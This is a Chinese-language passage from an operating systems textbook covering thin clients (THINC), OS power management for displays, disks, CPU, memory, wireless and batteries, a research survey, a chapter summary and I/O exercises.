中心化系统的另一个长处是资源共享更加容易。一个系统具有256个远程用户，每个用户拥有256MB RAM，在大多数时间这个系统的这些RAM大多是空闲的，然而某些用户临时需要大量的RAM但是却得不到，因为RAM在别人的PC上。对于一个具有64GB RAM的中心化系统，这样的事情决不会发生。同样的论据对于磁盘空间和其他资源也是有效的。
最后，我们将开始考察从以PC为中心的计算到以Web为中心的计算的转移。一个领域是电子邮件，在该领域中这种转移是长远的。人们过去获取投送到他们家庭计算机上的电子邮件，并且在家庭计算机上阅读。今天，许多人登录到Gmail、Hotmail或者Yahoo上，并且在那里阅读他们的邮件。下一步人们会登录到其他网站中，进行字处理、建立电子数据表以及做其他过去需要PC软件才能做的事情。最后甚至有可能人们在自己的PC上运行的惟一软件是一个Web浏览器，或许甚至没有软件。
一个合理的结论大概是：大多数用户想要高性能的交互式计算，但是实在不想管理一台计算机。这一结论导致研究人员重新研究了分时系统使用的哑终端（现在文雅地称为瘦客户机（thin client）），它们符合现代终端的期望。X是这一方向的一个步骤并且专用的X终端一度十分流行，但是它们现在已经失宠，因为它们的价格与PC相仿，能做的事情更少，并且仍然需要某些软件维护。圣杯（holy grail）应该是一个高性能的交互式计算系统，在该系统中用户的机器根本就没有软件。十分有趣的是，这一目标是可以达到的。下面我们将描述一个这样的瘦客户机系统，称为THINC，它是由哥伦比亚大学的研究人员开发的（Baratto等人，2005；Kim等人，2006；Lai和Nieh，2006）。
此处的基本思想是从客户机剥离一切智能和软件，只是将其用作一台显示器，使所有计算（包括建立待显示的位图）都在服务器端完成。客户机和服务器之间的协议只是通知显示器如何更新视频RAM，再无其他。两端之间的协议中使用了五条命令，它们列在图5-44中。
现在我们将考察这些命令。Raw用于传输像素数据并且将它们逐字地显示在屏幕上。原则上，这是惟一需要的命令。其他命令只是为了优化。
Copy指示显示器从其视频RAM的一个部分移动数据到另一个部分。这对于滚卷屏幕而不必重新传输所有数据是有用的。
Sfill以单一的像素值填充屏幕的一个区域。许多屏幕具有某种颜色的一致的背景，该命令用于首先生成背景，然后可以绘制文本、图标和其他项目。
Pfill在某个区域上复制一个模式。它还可以用于背景，但是某些背景比单一颜色要复杂一些，在这种情况下，该命令可以完成工作。
最后，Bitmap也是用于绘制区域，但是具有前景色和背景色。总而言之，这些是非常简单的命令，在客户端需要非常少的软件。所有建立位图填充屏幕的复杂操作都是在服务器上完成的。为了改进效率，多条命令可以聚集成单一的数据包，通过网络从服务器传送到客户机。
在服务器端，图形程序使用高级命令以绘制屏幕。这些命令被THINC软件截获，并且翻译成可以发送到客户机的命令。命令可能要重排序以改进效率。
论文通过在距客户机10～10 000km距离的服务器上运行众多的常用应用程序，给出了大量的性能测量。一般而言，性能超过了其他广域网系统，即使对于实时视频也是如此。关于更多的信息，请读者参阅论文。
第一代通用电子计算机ENIAC具有180 00个电子管并且消耗140 000瓦的电力。结果，它迅速积累起非同一般的电费账单。晶体管发明后，电力的使用量戏剧性地下降，并且计算机行业失去了在电力需求方面的兴趣。然而，如今电源管理由于若干原因又像过去一样成为焦点，并且操作系统在这里扮演着重要的角色。
我们从桌面PC开始讨论。桌面PC通常具有200瓦的电源（其效率一般是85%，15%进来的能量损失为热量）。如果全世界l亿台这样的机器同时开机，合起来它们要用掉20 000兆瓦的电力。这是20座中等规模的核电站的总产出。如果电力需求能够削减一半，我们就可以削减10座核电站。从环保的角度看，削减10座核电站（或等价数目的矿物燃料电站）是一个巨大的胜利，非常值得追求。
另一个要着重考虑电源的场合是电池供电的计算机，包括笔记本电脑、掌上机以及Web便笺簿等。问题的核心是电池不能保存足够的电荷以持续非常长的时间，至多也就是几个小时。此外，尽管电池公司、计算机公司和消费性电子产品公司进行了巨大的研究努力，但进展仍然缓慢。对于一个已经习惯于每18个月性能翻一番（摩尔定律）的产业来说，毫无进展就像是违背了物理定律，但这就是现状。因此，使计算机使用较少的能量因而现有的电池能够持续更长的时间就高悬在每个人的议事日程之上。操作系统在这里扮演着主要的角色，我们将在下面看到这一点。
在最低的层次，硬件厂商试图使他们的电子装置具有更高的能量效率。使用的技术包括减少晶体管的尺寸、利用动态电压调节、使用低摆幅并隔热的总线以及类似的技术。这些内容超出了本书的范围，感兴趣的读者可以在Venkatachalam和Franz（2005）的论文中找到很好的综述。
存在两种减少能量消耗的一般方法。第一种方法是当计算机的某些部件（主要是I/O设备）不用的时候由操作系统关闭它们，因为关闭的设备使用的能量很少或者不使用能量。第二种方法是应用程序使用较少的能量，这样为了延长电池时间可能会降低用户体验的质量。我们将依次看一看这些方法，但是首先就电源使用方面谈一谈硬件设计。
电池一般分为两种类型：一次性使用的和可再充电的。一次性使用的电池（AAA、AA与D电池）可以用来运转掌上设备，但是没有足够的能量为具有大面积发光屏幕的笔记本电脑供电。相反，可再充电的电池能够存储足够的能量为笔记本电脑供电几个小时。在可再充电的电池中，镍镉电池曾经占据主导地位，但是它们后来让位给了镍氢电池，镍氢电池持续的时间更长并且当它们最后被抛弃时不如镍镉电池污染环境那么严重。锂电池更好一些，并且不需要首先完全耗尽就可以再充电，但是它们的容量同样非常有限。
大多数计算机厂商对于电池节约采取的一般措施是将CPU、内存以及I/O设备设计成具有多种状态：工作、睡眠、休眠和关闭。要使用设备，它必须处于工作状态。当设备在短时间内暂时不使用时，可以将其置于睡眠状态，这样可以减少能量消耗。当设备在一个较长的时间间隔内不使用时，可以将其置于休眠状态，这样可以进一步减少能量消耗。这里的权衡是，使一个设备脱离休眠状态常常比使一个设备脱离睡眠状态花费更多的时间和能量。最后，当一个设备关闭时，它什么事情也不做并且也不消耗电能。并非所有的设备都具有这些状态，但是当它们具有这些状态时，应该由操作系统在正确的时机管理状态的变迁。
某些计算机具有两个甚至三个电源按钮。这些按钮之一可以将整个计算机置于睡眠状态，通过键入一个字符或者移动鼠标，能够从该状态快速地唤醒计算机。另一个按钮可以将计算机置于休眠状态，从该状态唤醒计算机花费的时间要长得多。在这两种情况下，这些按钮通常除了发送一个信号给操作系统外什么也不做，剩下的事情由操作系统在软件中处理。在某些国家，依照法律，电气设备必须具有一个机械的电源开关，出于安全性考虑，该开关可以切断电路并且从设备撤去电能。为了遵守这一法律，可能需要另一个开关。
电源管理提出了操作系统必须处理的若干问题，其中许多问题涉及资源休眠——选择性地、临时性地关闭设备，或者至少当它们空闲时减少它们的功率消耗。必须回答的问题包括：哪些设备能够被控制？它们是工作的还是关闭的，或者它们具有中间状态吗？在低功耗状态下节省了多少电能？重启设备消耗能量吗？当进入低功耗状态时是不是必须保存某些上下文？返回到全功耗状态要花费多长时间？当然，对这些问题的回答是随设备而变化的，所以操作系统必须能够处理一个可能性的范围。
许多研究人员研究了笔记本电脑以了解电能的去向。Li等人（1994）测量了各种各样的工作负荷，得出的结论如图5-45所示。Lorch和Smith（1998）在其他机器上进行了测量，得出的结论如图5-45所示。Weiser等人（1994）也进行了测量，但是没有发表数值结果。这些结论清楚地说明能量吸收的前三名依次是显示器、硬盘和CPU。可能因为测量的不同品牌的计算机确实具有不同的能量需求，这些数字并不紧密地吻合，但是很显然，显示器、硬盘和CPU是节约能量的目标。
操作系统在能量管理上扮演着一个重要的角色，它控制着所有的设备，所以它必须决定关闭什么设备以及何时关闭。如果它关闭了一个设备并且该设备很快再次被用户需要，可能在设备重启时存在恼人的延迟。另一方面，如果它等待了太长的时间才关闭设备，能量就白白地浪费了。
这里的技巧是找到算法和试探法，让操作系统对关于关闭什么设备以及何时关闭能够作出良好的决策。问题是“良好”是高度主观的。一个用户可能觉得在30s未使用计算机之后计算机要花费2s的时间响应击键是可以接受的。另一个用户在相同的条件下可能会发出一连串的诅咒。
1.显示器
现在我们来看一看能量预算的几大消耗者，考虑一下对于它们能够做些什么。在每个人的能量预算中最大的项目是显示器。为了获得明亮而清晰的图像，屏幕必须是背光照明的，这样会消耗大量的能量。许多操作系统试图通过当几分钟的时间没有活动时关闭显示器而节省能量。通常用户可以决定关闭的时间间隔，因此将屏幕频繁地熄灭和很快用光电池之间的折中推回给用户（用户可能实际上并不希望这样）。关闭显示器是一个睡眠状态，因为当任意键被敲击或者定点设备移动时，它能够（从视频RAM）即时地再生。
Flinn和Satyanarayanan（2004）提出了一种可能的改进。他们建议让显示器由若干数目的区域组成，这些区域能够独立地开启和关闭。在图5-46中，我们描述了16个区域，使用虚线分开它们。当光标在窗口2中的时候，如图5-46a所示，只有右下角的4个区域必须点亮。其他12个区域可以是黑暗的，节省了3/4的屏幕功耗。
当用户移动鼠标到窗口1时，窗口2的区域可以变暗并且窗口1后面的区域可以开启。然而，因为窗口l横跨9个区域，所以需要更多的电能。如果窗口管理器能够感知正在发生的事情，它可以通过一种对齐区域的动作自动地移动窗口1以适合4个区域，如图5-46b所示。为了达到这一从9/16全功率到4/16全功率的缩减，窗口管理器必须理解电源管理或者能够从系统的某些其他做这些工作的部分接收指令。更加复杂的是能够部分地照亮不完全充满的窗口（例如，包含文本短线的窗口可以在右手边保持黑暗）。
2.硬盘
另一个主要的祸首是硬盘，它消耗大量的能量以保持高速旋转，即使不存在存取操作。许多计算机，特别是笔记本电脑，在几秒钟或者几分钟不活动之后将停止磁盘旋转。当下一次需要磁盘的时候，磁盘将再次开始旋转。不幸的是，一个停止的磁盘是休眠而不是睡眠，因为要花费相当多的时间将磁盘再次旋转起来，导致用户感到明显的延迟。
此外，重新启动磁盘将消耗相当多额外的能量。因此，每个磁盘都有一个特征时间Td 为它的盈亏平衡点，Td 通常在5～15s的范围之间。假设下一次磁盘存取预计在未来的某个时间t到来。如果t＜Td ，那么保持磁盘旋转比将其停止然后很快再将其开启要消耗更少的能量。如果t＞Td ，那么使得磁盘停止而后在较长时间后再次启动磁盘是十分值得的。如果可以做出良好的预测（例如基于过去的存取模式），那么操作系统就能够做出良好的关闭预测并且节省能量。实际上，大多数操作系统是保守的，往往是在几分钟不活动之后才停止磁盘。
节省磁盘能量的另一种方法是在RAM中拥有一个大容量的磁盘高速缓存。如果所需要的数据块在高速缓存中，空闲的磁盘就不必为满足读操作而重新启动。类似地，如果对磁盘的写操作能够在高速缓存中缓冲，一个停止的磁盘就不必只为了处理写操作而重新启动。磁盘可以保持关闭状态直到高速缓存填满或者读缺失发生。
避免不必要的磁盘启动的另一种方法是：操作系统通过发送消息或信号保持将磁盘的状态通知给正在运行的程序。某些程序具有可以自由决定的写操作，这样的写操作可以被略过或者推迟。例如，一个字处理程序可能被设置成每隔几分钟将正在编辑的文件写入磁盘。如果字处理程序知道当它在正常情况下应该将文件写到磁盘的时刻磁盘是关闭的，它就可以将本次写操作推迟直到下一次磁盘开启时，或者直到某个附加的时间逝去。
3.CPU
CPU也能够被管理以节省能量。笔记本电脑的CPU能够用软件置为睡眠状态，将电能的使用减少到几乎为零。在这一状态下CPU惟一能做的事情是当中断发生时醒来。因此，只要CPU变为空闲，无论是因为等待I/O还是因为没有工作要做，它都可以进入睡眠状态。
在许多计算机上，在CPU电压、时钟周期和电能消耗之间存在着关系。CPU电压可以用软件降低，这样可以节省能量但是也会（近似线性地）降低时钟速度。由于电能消耗与电压的平方成正比，将电压降低一半会使CPU的速度减慢一半，而电能消耗降低到只有l/4。
对于具有明确的最终时限的程序而言，这一特性可以得到利用，例如多媒体观察器必须每40ms解压缩并显示一帧，但是如果它做得太快它就会变得空闲。假设CPU全速运行40ms消耗了x焦耳能量，那么半速运行则消耗x/4焦耳的能量。如果多媒体观察器能够在20ms内解压缩并显示一帧，那么操作系统能够以全功率运行20ms，然后关闭20ms，总的能量消耗是x/2焦耳。作为替代，它能够以半功率运行并且恰好满足最终时限，但是能量消耗是x/4焦耳。以全速和全功率运行某个时间间隔与以半速和四分之一功率运行两倍长时间的比较如图5-47所示。在这两种情况下做了相同的工作，但是在图5-47b中只消耗了一半的能量。
类似地，如果用户以每秒1个字符的速度键入字符，但是处理字符所需的工作要花费100ms的时间，操作系统最好检测出长时间的空闲周期并且将CPU放慢10倍。简而言之，慢速运行比快速运行具有更高的能量效率。
4.内存
对于内存，存在两种可能的选择来节省能量。首先，可以刷新然后关闭高速缓存。高速缓存总是能够从内存重新加载而不损失信息。重新加载可以动态并且快速地完成，所以关闭高速缓存是进入睡眠状态。
更加极端的选择是将主存的内容写到磁盘上，然后关闭主存本身。这种方法是休眠，因为实际上所有到内存的电能都被切断了，其代价是相当长的重新加载时间，尤其是如果磁盘也被关闭了的话。当内存被切断时，CPU或者也被关闭，或者必须自ROM执行。如果CPU被关闭，将其唤醒的中断必须促使它跳转到ROM中的代码，从而能够重新加载内存并且使用内存。尽管存在所有这些开销，将内存关闭较长的时间周期（例如几个小时）也许是值得的。与常常要花费一分钟或者更长时间从磁盘重新启动操作系统相比，在几秒钟之内重新启动内存想来更加受欢迎。
5.无线通信
越来越多的便携式计算机拥有到外部世界（例如Internet）的无线连接。无线通信必需的无线电发送器和接收器是头等的电能贪吃者。特别是，如果无线电接收器为了侦听到来的电子邮件而始终开着，电池可能很快耗干。另一方面，如果无线电设备在1分钟空闲之后关闭，那么就可能会错过到来的消息，这显然是不受欢迎的。
针对这一问题，Kravets和Krishnan（1998）提出了一种有效的解决方案。他们的解决方案的核心利用了这样的事实，即移动的计算机是与固定的基站通信，而固定基站具有大容量的内存与磁盘并且没有电源限制。他们的解决方案是当移动计算机将要关闭无线电设备时，让移动计算机发送一条消息到基站。从那时起，基站在其磁盘上缓冲到来的消息。当移动计算机再次打开无线电设备时，它会通知基站。此刻，所有积累的消息可以发送给移动计算机。
当无线电设备关闭时，生成的外发的消息可以在移动计算机上缓冲。如果缓冲区有填满的危险，可以将无线电设备打开并且将排队的消息发送到基站。
应该在何时将无线电设备关闭?一种可能是让用户或应用程序来决定。另一种方法是在若干秒的空闲时间之后将其关闭。应该在何时将无线电设备再次打开?用户或应用程序可以再一次做出决定，或者可以周期性地将其打开以检查到来的消息并且发送所有排队的消息。当然，当输出缓冲区接近填满时也应该将其打开。各种各样的其他休眠方法也是可能的。
6.热量管理
一个有一点不同但是仍然与能量相关的问题是热量管理。现代CPU由于高速度而会变得非常热。桌面计算机通常拥有一个内部电风扇将热空气吹出机箱。由于对于桌面计算机来说减少功率消耗通常并不是一个重要的问题，所以风扇通常是始终开着的。
对于笔记本电脑，情况是不同的。操作系统必须连续地监视温度，当温度接近最大可允许温度时，操作系统可以选择打开风扇，这样会发出噪音并且消耗电能。作为替代，它也可以借助于降低屏幕背光、放慢CPU速度、更为激进地关闭磁盘等来降低功率消耗。
来自用户的某些输入也许是颇有价值的指导。例如，用户可以预先设定风扇的噪音是令人不快的，因而操作系统将选择降低功率消耗。
7.电池管理
在过去，电池仅仅提供电流直到其耗干，在耗干时电池就不会再有电了。现在笔记本电脑使用的是智能电池，它可以与操作系统通信。在请求时，它可以报告其状况，例如最大电压、当前电压、最大负荷、当前负荷、最大消耗速率、当前消耗速率等。大多数笔记本电脑拥有能够查询与显示这些参数的程序。在操作系统的控制下，还可以命令智能电池改变各种工作参数。
某些笔记本电脑拥有多块电池。当操作系统检测到一块电池将要用完时，它必须适度地安排转换到下一块电池，在转换期间不能导致任何故障。当最后一块电池濒临耗尽时，操作系统要负责向用户发出警告然后促成有序的关机，例如，确保文件系统不被破坏。
8.驱动程序接口
Windows系统拥有一个进行电源管理的精巧的机制，称为ACPI（Advanced Configuration and Power Interface，高级配置与电源接口）。操作系统可以向任何符合标准的驱动程序发出命令，要求它报告其设备的性能以及它们当前的状态。当与即插即用相结合时，该特性尤其重要，因为在系统刚刚引导之后，操作系统甚至还不知道存在什么设备，更不用说它们关于能量消耗或电源管理的属性了。
ACPI还可以发送命令给驱动程序，命令它们削减其功耗水平（当然要基于早先获悉的设备性能）。还存在某些其他方式的通信。特别地，当一个设备（例如键盘或鼠标）在经历了一个时期的空闲之后检测到活动时，这是一个信号让系统返回到（接近）正常运转。
到目前为止，我们了解了操作系统能够降低各种类型的设备的能量使用量的方法。但是，还存在着另一种方法：指示程序使用较少的能量，即使这意味着提供低劣的用户体验（低劣的体验也比电池耗干并且屏幕熄灭时没有体验要好）。一般情况下，当电池的电荷低于某个阈值时传递这样的信息，然后由应用程序负责在退化性能以延长电池寿命与维持性能并且冒着用光电池的危险之间作出决定。
这里出现的一个问题是程序怎样退化其性能以节省能量?Flinn和Satyanarayanan（2004）研究了这一问题，他们提供了退化的性能怎样能够节省能量的4个例子。我们现在就看一看这些例子。
在他们的研究中，信息以各种形式呈现给用户。当退化不存在时，呈现的是最优可能的信息。当退化存在时，呈现给用户的信息的保真度（准确度）比它能够达到的保真度要差。我们很快就会看到这样的例子。
为了测量能量使用量，Flinn和Satyanarayanan发明了一个称为PowerScope的软件工具。PowerScope所做的事情是提供一个程序的电能使用量的概要剖析。为了使用PowerScope，计算机必须通过一个软件控制的数字万用表接通一个外部电源。使用万用表，软件可以读出从电源流进的电流的毫安数，并且因此确定计算机正在消耗的瞬时功率。PowerScope所做的工作是周期性地采样程序计数器和电能使用量并且将这些数据写到一个文件中。当程序终止后，对文件进行分析就可以给出每个过程的能量使用量。这些测量形成了他们的观察结果的基础。他们还利用硬件能量节约测量并且形成了基准线，对照该基准线测量了退化的性能。
测量的第一个程序是一个视频播放器。在未退化模式下，播放器以全分辨率和彩色方式每秒播放30帧。一种退化形式是舍弃彩色信息并且以黑白方式显示视频。另一种退化形式是降低帧速率，这会导致闪烁并且使电影呈现抖动的质量。还有一种退化形式是在两个方向上减少像素数目，或者是通过降低空间分辨率，或者是使显示的图像更小。对这种类型的测量表明节省了大约30%的能量。
第二个程序是一个语音识别器，它对麦克风进行采样以构造波形。该波形可以在笔记本电脑上进行分析，也可以通过无线链路发送到固定计算机上进行分析，这样做节省了CPU消耗的能量但是会为无线电设备而消耗能量。通过使用比较小的词汇量和比较简单的声学模型可以实现退化，这样做的收益大约是35%。
第三个例子是一个通过无线链路获取地图的地图观察器。退化在于或者将地图修剪到比较小的尺度，或者告诉远程服务器省略比较小的道路，从而需要比较少的位来传输。这样获得的收益大约也是35%。
第四个实验是传送JPEG图像到一个Web浏览器。JPEG标准允许各种算法，在图像质量与文件大小之间进行中。这里的收益平均只有9%。总而言之，实验表明通过接受一些质量退化，用户能够在一个给定的电池上运行更长的时间。
关于输入/输出有大量的研究，但是大多数研究集中在特别的设备上，而不是一般性的I/O。研究的目标常常是想方设法改进性能。
磁盘系统是一个恰当的事例。磁盘臂调度算法曾经是一个流行的研究领域（Bachmat和Braverman，2006；Zarandioon和Thomasim，2006），磁盘阵列也是如此（Arnan等人，2007）。优化完整的I/O路径也引起了人们的兴趣（Riska等人，2007）。还有关于磁盘工作量特性的研究（Riska和Riedel，2006）。一个新的与磁盘相关的研究领域是高性能闪存盘（Birrell等人，2007；Chang，2007）。设备驱动程序也得到某些必要的关注（Ball等人，2006；Ganapathy等人，2007；Padioleau等人，2006）。
另一种新的存储技术是MEMS（Micro-Electrical-Mechanical System，微电子机械系统），它潜在地可以取代磁盘，或者至少是磁盘的补充（Rangaswami等人，2007；Yu等人，2007）。另一个新兴的研究领域是如何在磁盘控制器内部最好地利用CPU，例如，为了改进性能（Gurumurthi，2007）或者是为了检测病毒（Paul等人，2005）。
稍稍让人吃惊的是，身份低下的时钟仍然是研究的主题。为了提供更好的分辨率，某些操作系统在1000Hz的时钟下运行，这会导致相当大的开销。摆脱这一开销正是新兴的研究课题（Etsion等人，2003；Tsafir等人，2005）。
瘦客户机也是相当引人注目的研究主题（Kissler和Hoyt，2005；Ritschard，2006；Schwartz和Guerrazzi，2005）。
考虑到研究笔记本电脑的为数众多的计算机科学家，并且考虑到大多数笔记本电脑微不足道的电池寿命，看到在利用软件技术减少电能消耗方面有巨大的研究兴趣就不足为奇了。研究中的特别主题包括：编写应用程序代码以最大化磁盘空闲时间（Son等人，2006），当使用比较少时让磁盘降低转速（Gurumurthi等人，2003），使用程序模型预测无线网卡何时可以关闭（Hom和Kremer，2003），节省VoIP的电能（Gleeson等人，2006），调查安全性的能量代价（Aaraj等人，2007），以能源效率高的方式执行多媒体调度（Yuan和Nahrstedt，2006），以及让内置的摄像机检测是否有人在看显示器并且在没有人看的时候将其关闭（Dalton和Ellis，2003）。在低端，另一个热门话题是传感器网络中能源的使用（Min等人，2007；Wang和Xiao，2006）。而在高端，在大型服务器园区中节省能源也引起人们的关注（Fan等人，2007；Tolentino等人，2007）。
输入/输出是一个经常被忽略但是十分重要的话题。任何一个操作系统都有大量的组分与I/O有关。I/O可以用三种方式来实现。第一是程序控制I/O，在这种方式下主CPU输入或输出每个字节或字并且闲置在一个密封的循环中等待，直到它能够获得或者发送下一个字节或字。第二是中断驱动的I/O，在这种方式下CPU针对一个字节或字开始I/O传送并且离开去做别的事情，直到一个中断到来发出信号通知I/O完成。第三是DMA，在这种方式下有一个单独的芯片管理着一个数据块的完整传送过程，只有当整个数据块完成传送时才引发一个中断。
I/O可以组织成4个层次：中断服务程序、设备驱动程序、与设备无关的I/O软件和运行在用户空间的I/O库与假脱机程序。设备驱动程序处理运行设备的细节并且向操作系统的其余部分提供统一的接口。与设备无关的I/O软件做类似缓冲与错误报告这样的事情。
盘具有多种类型，包括磁盘、RAID和各类光盘。磁盘臂调度算法经常用来改进磁盘性能，但是虚拟几何规格的出现使事情变得十分复杂。通过将两块磁盘组成一对，可以构造稳定的存储介质，具有某些有用的性质。
时钟可以用于跟踪实际时间，限制进程可以运行多长时间，处理监视定时器，以及进行记账。
面向字符的终端具有多种多样的问题，这些问题涉及特殊的字符如何输入以及特殊的转义序列如何输出。输入可以采用原始模式或加工模式，取决于程序对于输入需要有多少控制。针对输出的转义序列控制着光标的移动并且允许在屏幕上插入和删除文本。
大多数UNIX系统使用X窗口系统作为用户界面的基础。它包含与特殊的库相绑定并发出绘图命令的程序，以及在显示器上执行绘图的服务器。
许多个人计算机使用GUI作为它们的输出。GUI基于WIMP范式：窗口、图标、菜单和定点设备。基于GUI的程序一般是事件驱动的，当键盘事件、鼠标事件和其他事件发生时立刻会被发送给程序以便处理。在UNIX系统中，GUI几乎总是运行在X之上。
瘦客户机与标准PC相比具有某些优势，对用户而言，值得注意的是简单性并且需要较少维护。对THINC瘦客户机进行的实验表明，以五条简单的原语就能制造出具有良好性能的客户机，即使对于视频也是如此。
最后，电源管理对于笔记本电脑来说是一个主要的问题，因为电池寿命是有限的。操作系统可以采用各种技术来减少功率消耗。通过牺牲某些质量以换取更长的电池寿命，应用程序也可以做出贡献。
1.芯片技术的进展已经使得将整个控制器包括所有总线访问逻辑放在一个便宜的芯片上成为可能。这对于图1-5的模型具有什么影响?
2.已知图5-1列出的速度，是否可能以全速从一台扫描仪扫描文档并且通过802.11g网络对其进行传输?请解释你的答案。
3.图5-3b显示了即使在存在单独的总线用于内存和用于I/O设备的情况下使用内存映射I/O的一种方法，也就是说，首先尝试内存总线，如果失败则尝试I/O总线。一名聪明的计算机科学专业的学生想出了一个改进办法：并行地尝试两个总线，以加快访问I/O设备的过程。你认为这个想法如何?
4.假设一个系统使用DMA将数据从磁盘控制器传送到内存。进一步假设平均花费t1 ns获得总线，并且花费t2 ns在总线上传送一个字（t1 ＞＞t2 ）。在CPU对DMA控制器进行编程之后，如果（a）采用一次一字模式，（b）采用突发模式，从磁盘控制器到内存传送1000个字需要多少时间？假设向磁盘控制器发送命令需要获取总线以传输一个字，并且应答传输也需要获取总线以传输一个字。
5.假设一台计算机能够在10ns内读或者写一个内存字，并且假设当中断发生时，所有32位寄存器连同程序计数器和PSW被压入堆栈。该计算机每秒能够处理的中断的最大数目是多少?
6.CPU体系结构设计师知道操作系统编写者痛恨不精确的中断。取悦于OS人群的一种方法是当得到一个中断信号通知时，让CPU停止发射指令，但是允许当前正在执行的指令完成，然后强制中断。这一方案是否有缺点？请解释你的答案。
7.在图5-9b中，中断直到下一个字符输出到打印机之后才得到应答。中断在中断服务程序开始时立刻得到应答是否同样可行?如果是，请给出像本书中那样在中断服务程序结束时应答中断的一个理由。如果不是，为什么?
8.一台计算机具有如图1-6a所示的三阶段流水线。在每一个时钟周期，一条新的指令从PC所指向的地址处的内存中取出并放入流水线，同时PC值增加。每条指令恰好占据一个内存字。已经在流水线中的指令每个时钟周期前进一个阶段。当中断发生时，当前PC压入堆栈，并且将PC设置为中断处理程序的地址。然后，流水线右移一个阶段并且中断处理程序的第一条指令被取入流水线。该机器具有精确的中断吗?请解释你的答案。
9.一个典型的文本打印页面包含50行，每行80个字符。设想某一台打印机每分钟可以打印6个页面，并且将字符写到打印机输出寄存器的时间很短以至于可以忽略。如果打印每一个字符要请求一次中断，而进行中断服务要花费总计50µs的时间，那么使用中断驱动的I/O来运行该打印机有没有意义?
10.请解释OS如何帮助安装新的驱动程序而无须重新编译OS。
11.以下各项工作是在四个I/O软件层的哪一层完成的?
a)为一个磁盘读操作计算磁道、扇区、磁头。
b)向设备寄存器写命令。
c)检查用户是否允许使用设备。
d)将二进制整数转换成ASCII码以便打印。
12.一个局域网以如下方式使用：用户发出一个系统调用，请求将数据包写到网上，然后操作系统将数据复制到一个内核缓冲区中，再将数据复制到网络控制器接口板上。当所有数据都安全地存放在控制器中时，再将它们通过网络以10Mb/s的速率发送。在每一位被发送后，接收的网络控制器以每微秒一位的速率保存它们。当最后一位到达时，目标CPU被中断，内核将新到达的数据包复制到内核缓冲区中进行检查。一旦判明该数据包是发送给哪个用户的，内核就将数据复制到该用户空间。如果我们假设每一个中断及其相关的处理过程花费lms时间，数据包为1024字节（忽略包头），并且复制一个字节花费1µs时间，那么将数据从一个进程转储到另一个进程的最大速率是多少?假设发送进程被阻塞直到接收端结束工作并且返回一个应答。为简单起见，假设获得返回应答的时间非常短，可以忽略不计。
13.为什么打印机的输出文件在打印前通常都假脱机输出在磁盘上?
14.3级RAID只使用一个奇偶驱动器就能够纠正一位错误。那么2级RAID的意义是什么?毕竟2级RAID也只能纠正一位错误而且需要更多的驱动器。
15.如果两个或更多的驱动器在很短的时间内崩溃，那么RAID就可能失效。假设在给定的一小时内一个驱动器崩溃的概率是p，那么在给定的一小时内具有k个驱动器的RAID失效的概率是多少?
16.从读性能、写性能、空间开销以及可靠性方面对0级RAID到5级RAID进行比较。
17.为什么光存储设备天生地比磁存储设备具有更高的数据密度?注意：本题需要某些高中物理以及磁场是如何产生的知识。
18.光盘和磁盘的优点和缺点各是什么？
19.如果一个磁盘控制器没有内部缓冲，一旦从磁盘上接收到字节就将它们写到内存中，那么交错编号还有用吗?请讨论。
20.如果一个磁盘是双交错编号的，那么该磁盘是否还需要柱面斜进以避免在进行磁道到磁道的寻道时错过数据？请讨论你的答案。
21.考虑一个包含16个磁头和400个柱面的磁盘。该磁盘分成4个100柱面的区域，不同的区域分别包含160个、200个、240个和280个扇区。假设每个扇区包含512字节，相邻柱面间的平均寻道时间为1ms，并且磁盘转速为7200rpm。计算a)磁盘容量、b)最优磁道斜进以及c)最大数据传输率。
22.一个磁盘制造商拥有两种5.25英寸的磁盘，每种磁盘都具有10 000个柱面。新磁盘的线性记录密度是老磁盘的两倍。在较新的驱动器上哪个磁盘的特性更好，哪个无变化?
23.一个计算机制造商决定重新设计Pentium硬盘的分区表以提供四个以上的分区。这一变化有什么后果?
24.磁盘请求以柱面10、22、20、2、40、6和38的次序进入磁盘驱动器。寻道时每个柱面移动需要6ms，以下各算法所需的寻道时间是多少?
a)先来先服务。
b)最近柱面优先。
c)电梯算法（初始向上移动）。
在各情形下，假设磁臂起始于柱面20。
25.调度磁盘请求的电梯算法的一个微小更改是总是沿相同的方向扫描。在什么方面这一更改的算法优于电梯算法？
26.在讨论使用非易失性RAM的稳定的存储器时，掩饰了如下要点。如果稳定写完成但是在操作系统能够将无效的块编号写入非易失性RAM之前发生了崩溃，那么会有什么结果?这一竞争条件会毁灭稳定的存储器的抽象概念吗?请解释你的答案。
27.在关于稳定的存储器的讨论中，证明了如果在写过程中发生了CPU崩溃，磁盘可以恢复到一个一致的状态（写操作或者已完成，或者完全没有发生）。如果在恢复的过程中CPU再次崩溃，这一特性是否还保持？请解释你的答案。
28.某计算机上的时钟中断处理程序每一时钟滴答需要2ms（包括进程切换的开销），时钟以60Hz的频率运行，那么CPU用于时钟处理的时间比例是多少?
29.一台计算机以方波模式使用一个可编程时钟。如果使用500MHz的晶体，为了达到如下时钟分辨率，存储寄存器的值应该是多少？
a)1ms（每毫秒一个时钟滴答）。
b)100µs.
30.一个系统通过将所有未决的时钟请求链接在一起而模拟多个时钟，如图5-34所示。假设当前时刻是5000，并且存在针对时刻5008、5012、5015、5029和5037的未决的时钟请求。请指出在时刻5000、5005和5013时时钟头、当前时刻以及下一信号的值。请指出在时刻23时时钟头、当前时刻以及下一信号的值。
31.许多UNIX版本使用一个32位无符号整数作为从时间原点计算的秒数来跟踪时间。这些系统什么时候会溢出（年与月）？你盼望这样的事情实际发生吗？
32.一个位图模式的终端包含1280×960个像素。为了滚动一个窗口，CPU（或者控制器）必须向上移动所有的文本行，这是通过将文本行的所有位从视频RAM的一部分复制到另一部分实现的。如果一个特殊的窗口高60行宽80个字符（总共4800个字符），每个字符框宽8个像素高16像素，那么以每个字节50ns的复制速率滚动整个窗口需要多长时间?如果所有的行都是80个字符长，那么终端的等价波特率是多少?将一个字符显示在屏幕上需要5µs，每秒能够显示多少行?
33.接收到一个DEL（SIGINT）字符之后，显示驱动程序将丢弃当前排队等候显示的所有输出。为什么?
34.在最初IBM PC的彩色显示器上，在除了CRT电子束垂直回扫期间以外的任何时间向视频RAM中写数据都会导致屏幕上出现难看的斑点。一个屏幕映像为25×80个字符，每个字符占据8×8像素的方框。每行640像素在电子束的一次水平扫描中绘出，需要花费6µs，包括水平回扫。屏幕每秒钟刷新60次，每次刷新均需要一个垂直回扫期以便使电子束回到屏幕顶端。在这一过程中可供写视频RAM的时间比例是多少？
